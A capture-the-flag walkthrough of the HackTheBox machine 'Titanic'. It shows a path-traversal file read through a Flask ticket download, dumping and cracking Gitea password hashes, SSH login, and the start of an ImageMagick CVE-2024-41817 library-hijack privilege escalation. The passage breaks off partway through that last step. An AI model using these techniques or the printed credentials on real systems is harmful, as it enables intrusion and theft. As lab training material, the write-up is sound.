









Welcome back, today we are attacking "Titanic" on the HackTheBox platform.

## Enumeration

A quick `nmap` scan reveals two open ports:

```
$ sudo nmap -sV -sC 10.10.11.55

Starting Nmap 7.95 ( https://nmap.org ) at 2025-07-24 10:25 CEST
Nmap scan report for 10.10.11.55
Host is up (0.019s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 73:03:9c:76:eb:04:f1:fe:c9:e9:80:44:9c:7f:13:46 (ECDSA)
|_  256 d5:bd:1d:5e:9a:86:1c:eb:88:63:4d:5f:88:4b:7e:04 (ED25519)
80/tcp open  http    Apache httpd 2.4.52
|_http-server-header: Apache/2.4.52 (Ubuntu)
|_http-title: Did not follow redirect to http://titanic.htb/
Service Info: Host: titanic.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.60 seconds
```

We need credentials to access SSH, so we should focus first on the website hosted by Apache. Apache issues a redirect to the hostname `titanic.htb` so we'll need to add it to `/etc/hosts`:

```
$ cat /etc/hosts

127.0.0.1       localhost
127.0.1.1       kali

# The following lines are desirable for IPv6 capable hosts
::1     localhost ip6-localhost ip6-loopback
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters

10.10.11.55 titanic.htb
```


We have a "Book now" form we can fill out:



Submitting returns a redirect to `http://titanic.htb/download?ticket=405d6fc7-7e66-4706-99f6-af906ff7b4a4.json` which contains

```json
{
  "name": "Jens",
  "email": "jens@titanic.htb",
  "phone": "12345678",
  "date": "4344-11-22",
  "cabin": "Standard"
}
```

Nothing here besides the data we entered. However, maybe we can modify the filename to download other files (Local File Inclusion vulnerability).

We can use Burp Suite to capture and modify the request by enabling the proxy and submitting the form while "Intercept" mode is enabled:



We'll modify the `ticket` query parameter to `/etc/passwd` and hit send:



I've highlighted the only user in the `/etc/passwd` file that actually can log in (shell is not set to `/bin/false` or `/usr/sbin/nologin`):

```
root:x:0:0:root:/root:/bin/bash
...
developer:x:1000:1000:developer:/home/developer:/bin/bash
```

We might be able to authenticate as `developer` over SSH if we can find some credentials.

Maybe we can continue our search by enumerating directories on this web application.

```
$ gobuster dir --url http://titanic.htb/ --wordlist /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt

===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://titanic.htb/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/download             (Status: 400) [Size: 41]
/book                 (Status: 405) [Size: 153]
/server-status        (Status: 403) [Size: 276]
Progress: 23889 / 30000 (79.63%)[ERROR] parse "http://titanic.htb/error\x1f_log": net/url: invalid control character in URL
Progress: 29999 / 30000 (100.00%)
===============================================================
Finished
===============================================================
```

`gobuster` found nothing that isnt a 400-status page (unaccessible).

We can check subdomains:

```
$ gobuster vhost -u http://titanic.htb -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt --append-domain -r
```

Really important is the `--append-domain` flag here:

> Append main domain from URL to words from wordlist. Otherwise the fully qualified domains need to be specified in the wordlist.

This is crucial because we want to find `foo.titanic.htb` and not `foo` itself. We also need the `-r` flag, because Apache has a fallback rule set to redirects all unknown VHOSTs to `titanic.htb`, and `gobuster` would flag all 301 responses as "found" while they don't exist.

```
$ gobuster vhost -u http://titanic.htb -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt --append-domain -r

===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:             http://titanic.htb
[+] Method:          GET
[+] Threads:         10
[+] Wordlist:        /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt
[+] User Agent:      gobuster/3.6
[+] Timeout:         10s
[+] Append Domain:   true
===============================================================
Starting gobuster in VHOST enumeration mode
===============================================================
Found: dev.titanic.htb Status: 200 [Size: 13982]
Progress: 75 / 19967 (0.38%)^C
[!] Keyboard interrupt detected, terminating.
Progress: 114 / 19967 (0.57%)
===============================================================
Finished
===============================================================
```

`dev.titanic.htb` is identified immediately. Let's add it to `/etc/hosts` so we can visit it:

```
$ cat /etc/hosts

127.0.0.1       localhost
127.0.1.1       kali

# The following lines are desirable for IPv6 capable hosts
::1     localhost ip6-localhost ip6-loopback
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters

10.10.11.55 titanic.htb dev.titanic.htb
```



Gitea allows us to sign in or register, the former of which won't work because I don't know a password (I guess the username might be `developer`). But we can register a new account.



Registering with password `12345678` leads us to the dashboard. At first sight, it seems empty. But browsing to "Explore" reveals two applications:



We can check out `flask-app`'s `app.py`, where we can see in the `download_ticket` function that the "path" is not escaped or checked and this creates the Local File Inclusion (LFI) vulnerability we found earlier (downloading `/etc/passwd`):



```python
@app.route('/download', methods=['GET'])
def download_ticket():
    ticket = request.args.get('ticket')
    if not ticket:
        return jsonify({"error": "Ticket parameter is required"}), 400

    json_filepath = os.path.join(TICKETS_DIR, ticket)

    if os.path.exists(json_filepath):
        return send_file(json_filepath, as_attachment=True, download_name=ticket)
    else:
        return jsonify({"error": "Ticket not found"}), 404

if __name__ == '__main__':
    app.run(host='127.0.0.1', port=5000)
```

So `flask-app` is the `titanic.htb` website with the "Book Now" form. Let's check out `docker-config` repository.



Reading `gitea/docker-compose.yml` I notice the Gitea application is running with port 3000 and also port 22 set for SSH access. But this SSH access is only to connect to inside the Docker container. It won't allow us to get access to the server running the Docker container. It is also only listening on `localhost:22` so we cannot access it from the outside.

Next, I see that `/home/developer/gitea/data` is mounted, which is interesting because this home directory is exactly where we want to retrieve the user flag from. The service runs with `USER_UID` and `USER_GID` 1000, which corresponds to the `/etc/passwd` entry for `developer`.

The `docker-config` repository has another folder, `mysql` with a `docker-compose.yml` file as well:

```yaml
version: "3.8"

services:
  mysql:
    image: mysql:8.0
    container_name: mysql
    ports:
      - "127.0.0.1:3306:3306"
    environment:
      MYSQL_ROOT_PASSWORD: "MySQLP@$$w0rd!"
      MYSQL_DATABASE: tickets
      MYSQL_USER: sql_svc
      MYSQL_PASSWORD: sql_password
restart: always
```

This file contains a password for the instance hosting the `tickets` database.

I tried the password `MySQLP@$$w0rd!` with the SSH service as `developer`, but its not the right password:

```
$ ssh developer@titanic.htb

The authenticity of host 'titanic.htb (10.10.11.55)' can't be established.
ED25519 key fingerprint is SHA256:Ku8uHj9CN/ZIoay7zsSmUDopgYkPmN7ugINXU0b2GEQ.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes

Warning: Permanently added 'titanic.htb' (ED25519) to the list of known hosts.

developer@titanic.htb's password: MySQLP@$$w0rd!
Permission denied, please try again.
```

MySQL is also only listening on `127.0.0.1` (localhost), so we can't connect to it from the outside.

## A first foothold

Let's return to that interesting volume mount:

```yml
volumes:
  - /home/developer/gitea/data:/data # Replace with your path
```

Inside Gitea's data is also the `gitea.db` file which stores the login credentials. We can possibly download this file exploiting our LFI vulnerability. What is the full path of the `gitea.db` file inside `/home/developer/data`?

[According to the Gitea documentation](https://docs.gitea.com/help/faq#where-does-gitea-store-what-file), the `gitea.db` path is configured inside `app.ini`, at the path `gitea/conf/app.ini`. The `data` folder contains this, which is mounted to `/home/developer/gitea/data` Fusing these together leads to `/home/developer/gitea/data/gitea/conf/app.ini`:



This contains the `[database]` section:

```toml
[database]
PATH = /data/gitea/gitea.db
DB_TYPE = sqlite3
HOST = localhost:3306
NAME = gitea
USER = root
PASSWD =
LOG_SQL = false
SCHEMA =
SSL_MODE = disable
```

We can use this `PATH` to download the SQLite database file:

```
$ wget titanic.htb/download?ticket=/home/developer/gitea/data/gitea/gitea.db

Prepended http:// to 'titanic.htb/download?ticket=/home/developer/gitea/data/gitea/gitea.db'
--2025-07-24 12:05:50--  http://titanic.htb/download?ticket=/home/developer/gitea/data/gitea/gitea.db
Resolving titanic.htb (titanic.htb)... 10.10.11.55
Connecting to titanic.htb (titanic.htb)|10.10.11.55|:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 2084864 (2.0M) [application/octet-stream]
Saving to: ‘download?ticket=%2Fhome%2Fdeveloper%2Fgitea%2Fdata%2Fgitea%2Fgitea.db’

download?ticket=%2Fhome%2Fdeve 100%[=================================================>]   1.99M  2.77MB/s    in 0.7s

2025-07-24 12:05:50 (2.77 MB/s) - ‘download?ticket=%2Fhome%2Fdeveloper%2Fgitea%2Fdata%2Fgitea%2Fgitea.db’ saved [2084864/2084864]
```

According to ChatGPT, the password hashes are located in the `user` table: let's dump the credentials:

```
$ sqlite3 gitea.db
SQLite version 3.46.1 2024-08-13 09:16:08
Enter ".help" for usage hints.

sqlite> SELECT name,passwd FROM user;
administrator|cba20ccf927d3ad0567b68161732d3fbca098ce886bbc923b4062a3960d459c08d2dfc063b2406ac9207c980c47c5d017136
developer|e531d398946137baea70ed6a680a54385ecff131309c0bd8f225f284406b7cbc8efc5dbef30bf1682619263444ea594cfb56
jens|525efa0cdd272db4dafe0f2a18f96fc0eb66425697ceb46344de82885e4194d86e7e83c6a4147bdb40141a9bda9a1aeb018c
```

There are password hashes for `administrator` as well as `developer` and the account I registered.

We'll probably want to crack the `developer` password because we know from `/etc/passwd` that this is the user we can log in to over SSH. But the current password format is not something Hashcat can work with. I found [this post](https://0xdf.gitlab.io/2024/12/14/htb-compiled.html#crack-gitea-hash) by 0xdf which shows a command to format the password into the right format.

That command gives me a `gitea.hashes` file.

```
$ hashcat gitea.hashes /usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt --user

hashcat (v6.2.6) starting in autodetect mode

OpenCL API (OpenCL 3.0 PoCL 6.0+debian  Linux, None+Asserts, RELOC, SPIR-V, LLVM 18.1.8, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
====================================================================================================================================================
* Device #1: cpu-skylake-avx512-AMD Ryzen 7 7700X 8-Core Processor, 1431/2927 MB (512 MB allocatable), 2MCU

Hash-mode was not specified with -m. Attempting to auto-detect hash mode.
The following mode was auto-detected as the only one matching your input hash:

10900 | PBKDF2-HMAC-SHA256 | Generic KDF

NOTE: Auto-detect is best effort. The correct hash-mode is NOT guaranteed!
Do NOT report auto-detect issues unless you are certain of the hash type.

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256

Hashes: 3 digests; 3 unique digests, 3 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Optimizers applied:
* Zero-Byte
* Slow-Hash-SIMD-LOOP

Watchdog: Hardware monitoring interface not found on your system.
Watchdog: Temperature abort trigger disabled.

Host memory required for this attack: 0 MB

Dictionary cache built:
* Filename..: /usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt
* Passwords.: 14344391
* Bytes.....: 139921497
* Keyspace..: 14344384
* Runtime...: 1 sec

...

$ hashcat gitea.hashes --show --user

$ hashcat gitea.hashes --show --user
Hash-mode was not specified with -m. Attempting to auto-detect hash mode.
The following mode was auto-detected as the only one matching your input hash:

10900 | PBKDF2-HMAC-SHA256 | Generic KDF

NOTE: Auto-detect is best effort. The correct hash-mode is NOT guaranteed!
Do NOT report auto-detect issues unless you are certain of the hash type.

developer:sha256:50000:i/PjRSt4VE+L7pQA1pNtNA==:5THTmJRhN7rqcO1qaApUOF7P8TEwnAvY8iXyhEBrfLyO/F2+8wvxaCYZJjRE6llM+1Y=:25282528
jens:sha256:50000:HDytj/IKWGYGUUGj1QfDAg==:Ul76DN0nLbTa/g8qGPlvwOtmQlaXzrRjRN6CiF5BlNhufoPGpBR720AUGpvamhrrAYw=:12345678
```

It cracked my password (`12345678`) and also `developer`'s password: `25282528`.

```
$ ssh developer@titanic.htb
developer@titanic.htb's password:
Welcome to Ubuntu 22.04.5 LTS (GNU/Linux 5.15.0-131-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

 System information as of Thu Jul 24 10:33:18 AM UTC 2025

  System load:           0.12
  Usage of /:            70.3% of 6.79GB
  Memory usage:          14%
  Swap usage:            0%
  Processes:             228
  Users logged in:       0
  IPv4 address for eth0: 10.10.11.55
  IPv6 address for eth0: dead:beef::250:56ff:fe94:4bf0


Expanded Security Maintenance for Applications is not enabled.

0 updates can be applied immediately.

Enable ESM Apps to receive additional future security updates.
See https://ubuntu.com/esm or run: sudo pro status


The list of available updates is more than a week old.
To check for new updates run: sudo apt update

developer@titanic:~$ cat user.txt
639663e7f459db62626be43aadff****
```

That's flag number 1!

## Privilege Escalation

There's `/opt/scripts/identify_images.sh`:

```bash
developer@titanic:~$ cat /opt/scripts/identify_images.sh
cd /opt/app/static/assets/images
truncate -s 0 metadata.log
find /opt/app/static/assets/images/ -type f -name "*.jpg" | xargs /usr/bin/magick identify >> metadata.log

developer@titanic:~$ ls -l /opt/app/static/assets/images/metadata.log
-rw-r----- 1 root developer 442 Jul 24 10:41 /opt/app/static/assets/images/metadata.log
```

The script seems to be run every minute by `root`. What can we exploit about `/usr/bin/magick`?

```
$ magick --version

Version: ImageMagick 7.1.1-35 Q16-HDRI x86_64 1bfce2a62:20240713 https://imagemagick.org
Copyright: (C) 1999 ImageMagick Studio LLC
License: https://imagemagick.org/script/license.php
Features: Cipher DPC HDRI OpenMP(4.5)
Delegates (built-in): bzlib djvu fontconfig freetype heic jbig jng jp2 jpeg lcms lqr lzma
openexr png raqm tiff webp x xml zlib
Compiler: gcc (9.4)
```

There is `CVE-2024-41817`. Apparently we can place a shared library in the `images` directory, and it will be loaded by the vulnerable version 7.1.1.

```c
$ gcc -x c -shared -fPIC -o ./libxcb.so.1 - << EOF
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
__attribute__((constructor)) void init(){
